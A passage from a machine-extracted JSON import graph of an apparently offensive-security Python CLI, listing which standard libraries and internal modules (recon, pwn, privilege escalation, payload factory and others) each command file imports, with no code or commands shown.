{"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/privilege_escalation.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/privilege_escalation.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/privilege_escalation.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/privilege_escalation.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/privilege_escalation.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/privilege_escalation.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/privilege_escalation.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/privilege_escalation.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/privilege_escalation.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/privilege_escalation.py", "target": "pandas"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/privilege_escalation.py", "target": "pandas"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/privilege_escalation.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/purple_team.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/purple_team.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/purple_team.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/purple_team.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/purple_team.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/purple_team.py", "target": "modules.auto_purple"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/purple_team.py", "target": "modules.auto_purple"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/purple_team.py", "target": "modules.auto_purple"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/purple_team.py", "target": "modules.auto_purple"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/purple_team.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/purple_team.py", "target": "cli.purple_tui"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pwn.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pwn.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pwn.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pwn.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pwn.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pwn.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pwn.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pwn.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pwn.py", "target": "core.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pwn.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pwn.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pwn.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pwn.py", "target": "modules.autonomous_exploit_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pwn.py", "target": "modules.rich_tui"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pwn.py", "target": "modules.dashboard_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pwn.py", "target": "modules.exploit_recommender"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pwn.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pwn.py", "target": "modules.exploit_recommender"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pwn.py", "target": "modules.ai_exploit_chain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pwn.py", "target": "modules.autonomous_exploit_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pwn.py", "target": "modules.autonomous_exploit_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pwn.py", "target": "modules.autonomous_exploit_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/pwn.py", "target": "modules.enrich"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon.py", "target": "cli.exploit_advisor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon.py", "target": "cli.lazynmap_post"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon.py", "target": "modules.intelligence_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon_migrated.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon_migrated.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon_migrated.py", "target": "cli.assign"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon_migrated.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon_migrated.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon_migrated.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon_migrated.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon_migrated.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon_migrated.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon_migrated.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon_migrated.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon_migrated.py", "target": "cli.aliases"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon_migrated.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon_migrated.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon_migrated.py", "target": "cli.surface_tui"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon_migrated.py", "target": "cli.surface_tui"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon_migrated.py", "target": "cli.surface_tui"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon_migrated.py", "target": "cli.surface_tui"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/recon_migrated.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/redteam_gym.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/redteam_gym.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/redteam_gym.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/redteam_gym.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/redteam_gym.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/redteam_gym.py", "target": "modules.redteam_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/redteam_gym.py", "target": "modules.redteam_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/redteam_gym.py", "target": "modules.redteam_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/redteam_gym.py", "target": "modules.redteam_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/redteam_gym.py", "target": "modules.redteam_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/redteam_gym.py", "target": "modules.redteam_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/redteam_gym.py", "target": "modules.redteam_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/resource_scripting.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/resource_scripting.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/resource_scripting.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/resource_scripting.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/resource_scripting.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/resource_scripting.py", "target": "modules.resource_script"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/resource_scripting.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/scan.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/scan.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/scan.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/scan.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/scan.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/scan.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/scan_migrated.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/scan_migrated.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/scan_migrated.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/scan_migrated.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/scan_migrated.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/scan_migrated.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/scan_migrated.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/scan_migrated.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/security.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/security.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/security.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/security.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/security.py", "target": "rich.table"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/security.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/security.py", "target": "modules.opsec_scorer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/security.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/security.py", "target": "core.credential_vault"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/security.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/security.py", "target": "core.credential_vault"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/security.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/security.py", "target": "core.credential_vault"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/security.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/security.py", "target": "rich.table"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/security.py", "target": "modules.hash_cracker"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/security.py", "target": "modules.opsec_scorer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/security.py", "target": "modules.hash_cracker"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/security.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/security.py", "target": "modules.opsec_scorer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.aliases"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.assign"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.autosuggest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.show"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "modules.module_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "modules.module_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "modules.module_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "modules.payload_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.session_resumer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.config_history"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "modules.lazy_rbac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "modules.planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.chain_mode"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "pipeline_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "modules.autonomous_exploit_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "cli.assign"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/session_ops.py", "target": "modules.enrich"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/shellsys.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/shellsys.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/shellsys.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/shellsys.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/shellsys.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/shellsys.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/shellsys.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/shellsys.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/shellsys.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/sleep_obfuscation.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/sleep_obfuscation.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/sleep_obfuscation.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/sleep_obfuscation.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/sleep_obfuscation.py", "target": "modules.sleep_obfuscation"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/sleep_obfuscation.py", "target": "modules.sleep_obfuscation"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/sleep_obfuscation.py", "target": "modules.sleep_obfuscation"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/socks_proxy.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/socks_proxy.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/socks_proxy.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/socks_proxy.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/socks_proxy.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/socks_proxy.py", "target": "modules.socks_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/socks_proxy.py", "target": "modules.socks_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/socks_proxy.py", "target": "modules.socks_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/supply_chain.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/supply_chain.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/supply_chain.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/supply_chain.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/supply_chain.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/supply_chain.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/supply_chain.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/supply_chain.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/supply_chain.py", "target": "urllib.error"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/supply_chain.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/supply_chain.py", "target": "defusedxml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/surface.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/surface.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/surface.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/surface.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/surface.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/surface.py", "target": "modules.surface_ops"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/surface.py", "target": "modules.estorides_fusion"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/surface.py", "target": "modules.attack_surface3d"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ux.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ux.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ux.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ux.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ux.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ux.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ux.py", "target": "cli.output_mode"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ux.py", "target": "cli.session_hud"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ux.py", "target": "cli.config_history"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ux.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ux.py", "target": "cli.config_history"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ux.py", "target": "cli.output_mode"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ux.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ux.py", "target": "rich.table"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ux.py", "target": "cli.output_mode"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ux.py", "target": "cli.toast_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/ux.py", "target": "cli.fuzzy_match"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/config_history.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/config_history.py", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/config_history.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/config_history.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/config_status.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/config_status.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/config_status.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/config_status.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/config_status.py", "target": "rich.panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/config_status.py", "target": "rich.table"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/confirm.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/confirm.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/contextual_help.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/contextual_help.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/contextual_help.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/contextual_help.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/contextual_help.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/contextual_help.py", "target": "rich.panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/contextual_help.py", "target": "rich.table"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/contextual_help.py", "target": "cli.phase_labels"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/contextual_help.py", "target": "cli.palette"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_layout.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_layout.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "rich.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "textual"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "textual.app"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "textual.containers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "textual.message"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "textual.widgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", "target": "cli.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/dashboard_tui.py", 